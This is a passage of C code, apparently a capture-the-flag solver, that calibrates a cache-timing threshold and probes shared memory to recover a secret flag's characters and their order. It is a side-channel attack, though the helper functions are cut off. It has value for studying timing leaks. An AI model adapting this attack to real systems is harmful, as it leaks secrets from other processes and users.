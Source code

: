 ```
		time_fast=probe_timing((char *)(&base[G*used]));
	 	if(time_fast < threshold ){
			output[j]=used+'-';
			j++;
		}	
	  }
	}
	output[j]='\0';
}

int main(){
	wchar_t *base;
	int i,j;
	//'}' - '-' = 0x50
	//total of chars to test
	int dict[0x52];
	unsigned char valids[0x52];
	char flag[PROBE_AMMOUNT_ORDER+1];

	computeThreshold();
	printf("using threshold 0x%x \n",threshold);

	base=getEmojis();
	memset((void *)dict,0,sizeof(int)*0x52);

	unsigned char set0[]="M\\AV/K?e0DkC";
	unsigned char set1[]="G]bYt|NWwJC";
	unsigned char set2[]="ongP9H6vhzC";
	unsigned char set3[]="p-xRQ.2rXUC";
	unsigned char set4[]=">;71=`4l5jC";
	unsigned char set5[]="d3^B@{[L<fC";
	unsigned char set6[]="uSyTOsZi8C";
	unsigned char set7[]="cIEa_mqF}:C";


	watch(base,set0,dict);
	watch(base,set1,dict);
	watch(base,set2,dict);
	watch(base,set3,dict);
	watch(base,set4,dict);
	watch(base,set5,dict);
	watch(base,set6,dict);
	watch(base,set7,dict);
	
	
	j=0;
	for (i=0;i<0x51;i++){
	  if(dict[i]>4){
            valids[j]=(char)(i+'-');
	    j++;
	  }
	}
	valids[j]='\0';
	
	printf("valid chars: %s\n",valids);
	
	srand(time(NULL));
	randomize(valids);
	
	watchOrder(base,valids,flag);
	printf("flag here: %s\n",flag);

	return 0;
```